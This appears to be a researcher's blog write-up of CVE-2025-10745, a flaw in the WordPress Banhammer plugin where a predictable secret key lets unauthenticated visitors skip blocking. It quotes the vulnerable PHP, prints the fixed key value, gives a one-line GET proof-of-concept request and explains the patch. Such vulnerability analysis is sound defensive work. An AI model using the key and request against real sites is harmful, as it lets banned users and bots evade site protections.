


# CVE-2025-10745 Analysis & POC


<!--more-->

## CVE & Basic Info

The WordPress plugin **Banhammer – Monitor Site Traffic, Block Bad Users and Bots** contains a **blocking bypass vulnerability** in all versions up to and including **3.4.8**. The root cause is a **site-wide shared “secret key”** that is generated in a **deterministic way** from a fixed character set using `md5()` and `base64_encode()`, then stored in the `banhammer_secret_key` option. This allows an **unauthenticated attacker** to bypass the plugin’s logging and blocking mechanisms by adding a GET parameter named `banhammer-process_{SECRET}`, where `{SECRET}` is a predictable value, causing Banhammer to **skip applying protection for that request**.

* **CVE ID**: [CVE-2025-10745](https://www.cve.org/CVERecord?id=CVE-2025-10745)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 3.4.8
* **Patched Versions**: 3.4.9
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Banhammer Plugin](https://wordpress.org/plugins/banhammer/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – Banhammer**:

  * `3.4.7` – **vulnerable**
  * `3.4.9` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers the following action hook:

```php
add_action('wp_ajax_banhammer_armory', 'banhammer_armory');
```

`wp_ajax_` is a hook for logged-in users. When a request is sent to `/wp-admin/admin-ajax.php` with the parameter `action=banhammer_armory`, the callback `banhammer_armory` is executed:

```php {title="armory-ajax.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_armory() {
	
	check_ajax_referer('banhammer', 'nonce');
	
	if (!current_user_can('manage_options')) return;
	
	$vars = banhammer_armory_vars();
	
	extract($vars); // $wpdb, $table, $items, $type, $bulk, $sort, $order, $search, $filter, $status, $fx, $jump, $count, $limit, $offset, $toggle
	
	$limit = ($limit > 10) ? 10 : $limit;
	
	if ($type === 'add') {
        ...
	} elseif ($type === 'bulk') {
		list ($query, $count) = banhammer_armory_bulk($wpdb, $table, $offset, $limit, $sort, $order, $bulk, $items, $search, $filter, $status);
    ...
	}
	
	banhammer_armory_results($wpdb, $table, $query, $count, $type, $offset, $limit);
	
	die(); //
}
```

The `banhammer_armory()` function first verifies the AJAX nonce and the user’s privileges. If either check fails or the user does not have the `manage_options` capability (Administrator), the function exits immediately.

Next, it calls `banhammer_armory_vars()` to retrieve all required parameters from the request and store them in the `$vars` array. These values are then assigned to local variables using `extract($vars)`.

The `$limit` value is capped at 10 to avoid querying too many records at once.

Depending on the value of `$type`, different processing branches are executed. If `$type === 'bulk'`, the function calls `banhammer_armory_bulk()` to perform IP-based banning actions.

This functionality is used directly by the **administrator**.



The plugin hooks the `banhammer_init()` function to `init`:

```php
add_action('init', 'banhammer_init');
```

This means every WordPress request will pass through this function.

```php {title="armory-ajax.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_init() {
	
	global $BanhammerWP;
	
	$options = get_option('banhammer_settings', $BanhammerWP->options());
	
	if (banhammer_abort($options)) return;
	
	extract(banhammer_get_vars()); // $status, $date, $user, $protocol, $method, $domain, $request, $ua, $refer, $proxy, $ip
	
	$check = banhammer_check($user, $ip);
	
	$banhammer = false;
	
	$status = 0;
	
	if (is_array($check)) {
		
		extract($check); // $tower, $status
		
		update_option('banhammer_tower', $tower);
		
		if ($status == 3 || $status == 4) $banhammer = true;
		
	}
	
	banhammer_insert($status, $date, $user, $protocol, $method, $domain, $request, $ua, $refer, $proxy, $ip);
	
	if ($banhammer) {
		
		banhammer_disable_cache();
		
		banhammer($options);
		
	}
	
	return false;
	
}
```

Before checking whether an IP or user is banned, the plugin calls:

```php
banhammer_abort($options)
```

If this function returns `true`, the entire ban-check mechanism is skipped for the current request.

In other words, the request will not be banned, blocked, or processed under any ban rules.

```php {title="banhammer-core.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_abort($options) {
    ...
	if (!empty($_GET)) {
		
		foreach ($_GET as $k => $v) {
			
			if (strpos($k, 'banhammer-process') !== false) {
				
				$key = banhammer_get_secret_key(30, 'abort check');
				
				$get_key = explode('banhammer-process_', $k);
				
				$get_key = end($get_key);
				
				if ($get_key === $key) {
					
					return true;
					
				}
				
			}
			
		}
		
	}
    ...
}
```

Here, the plugin allows bypassing the ban mechanism through a URL containing:

```
?banhammer-process_<secret_key>
```

If the key matches the internal secret key.

```php {title="banhammer-functions.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_get_secret_key($bytes, $context) {
	
	$key = get_option('banhammer_secret_key');
	
	if (!$key) {
		
		$key = banhammer_secret_key($bytes);
		
		$update = update_option('banhammer_secret_key', $key);
		
		$update = $update ? 'added' : 'failed';
		
		$context = $update .' via '. $context;
		
		$log = apply_filters('banhammer_get_secret_key_log', false);
		
		if ($log) error_log('Banhammer: Secret key '. print_r($context, true));
		
	}
	
	return apply_filters('banhammer_get_secret_key', $key);
	
}
```

If the key does not exist, the function calls `banhammer_secret_key($bytes)` with `bytes = 30`:

```php {title="banhammer-functions.php v3.4.7" hl_lines=[] data-open=true}
function banhammer_secret_key($bytes) {
	$chars = '1234567890abcdefghijklmnopqrstuvwxyz';
	
	$key = base64_encode(substr(md5($chars), 0, $bytes));
	
	return apply_filters('banhammer_secret_key', $key);	
}
```

The critical flaw lies in this function: the key is completely predictable and has only one possible value:

```
OTI4ZjdiY2RjZDA4ODY5Y2M0NGMxYmYyNGU3YWJl
```

Therefore, by sending a request with the parameter:

```
?banhammer-process_OTI4ZjdiY2RjZDA4ODY5Y2M0NGMxYmYyNGU3YWJl
```

the attacker can bypass the ban mechanism.

The patch in **v3.4.9** fixes the vulnerability by **binding the bypass mechanism to Administrator privileges**. Specifically, the plugin only allows bypass when the **secret key is valid and the user has the `manage_options` capability**:

```php
if ($get_key === $key && current_user_can('manage_options')) {
    return true;
}
```

As a result, the `banhammer-process_{SECRET}` parameter can no longer be abused by unauthenticated users, and the bypass mechanism is restricted to legitimate administrative operations.

## Flow



## Proof of Concept (PoC)

Send a request with the parameter:

```http
GET /?banhammer-process_OTI4ZjdiY2RjZDA4ODY5Y2M0NGMxYmYyNGU3YWJl HTTP/1.1
Host: localhost
```

## Conclusion

CVE-2025-10745 allows bypassing the protection mechanism of the Banhammer plugin via a GET parameter containing a predictable secret key. The patch adds a user capability check, allowing bypass only when the **key is valid and the user has the `manage_options` permission**, thereby completely preventing exploitation by **unauthenticated attackers**.

## Key Takeaways

* Logic flaws can disable an entire protection mechanism even without complex technical exploitation.
* Secret keys generated from static data do not provide real security.
* Bypass mechanisms must be strictly authenticated and should not rely on fixed GET parameters.
* Sites must update to the patched plugin version to avoid protection bypass.

## References

[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Banhammer Plugin <= 3.4.8 is vulnerable to a medium priority Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/banhammer/vulnerability/wordpress-banhammer-plugin-3-4-8-unauthenticated-protection-mechanism-bypass-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2026-01-23-cve-2025-10745/  

